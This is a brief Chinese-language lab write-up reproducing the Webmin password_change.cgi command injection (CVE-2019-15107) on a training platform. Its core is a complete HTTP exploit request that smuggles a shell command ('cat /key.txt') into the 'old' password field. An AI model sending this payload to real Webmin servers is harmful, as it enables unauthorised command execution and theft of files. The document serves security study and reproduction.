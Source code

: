 # 0x00 复现环境
墨者学院->地址：https://www.mozhe.cn/bug/detail/d01lL2RSbGEwZUNTeThVZ0xDdXl0Zz09bW96aGUmozhe

# 0x01 影响版本
webmin <= 1.920

# 0x02 利用条件
需要开启密码重置功能，如下图  
![image](https://github.com/xuxuedong/yibudengtian-input-db/blob/master/000046_webmin%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0%EF%BC%88CVE-2019-15107%EF%BC%89/0.png)  
查看webmin的配置文件/etc/webmin/miniserv.conf，可以发现passwd_mode的值已经从0变为了2

# 0x03 利用过程
随便发起一个请求，burp拦截，修改为如下数据包  
```
POST /password_change.cgi HTTP/1.1
Host: 219.153.49.228:41489
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:68.0) Gecko/20100101 Firefox/68.0Accept: text/html, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://219.153.49.228:41489/passwd/index.cgi?xnavigation=1
X-PJAX: true
X-PJAX-Container: [data-dcontainer]
X-PJAX-URL: passwd/edit_passwd.cgi?user=root
X-Requested-From: passwd
X-Requested-From-Tab: webmin
X-Requested-With: XMLHttpRequest
Content-Type: text/plain;charset=UTF-8
Content-Length: 60
Connection: close

user=yibudengtian&old=cat%20/key.txt&new1=123456&new2=123456
```
说明：

# 参考链接：  
https://xz.aliyun.com/t/6040  
https://www.cnblogs.com/paperpen/p/11442532.html
